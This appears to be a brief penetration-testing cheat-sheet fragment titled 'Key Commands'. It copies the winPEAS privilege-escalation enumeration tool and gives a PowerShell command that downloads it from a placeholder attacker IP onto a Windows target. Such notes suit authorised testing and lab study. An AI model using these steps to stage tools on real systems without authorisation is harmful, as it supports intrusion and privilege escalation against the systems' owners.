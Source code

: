 
# Key Commands

```
cp /usr/share/peass/winpeas/winPEASx64.exe .
```

```powershell
iwr -uri http://<attacker_ip>/winPEASx64.exe -Outfile winPEAS.exe
```





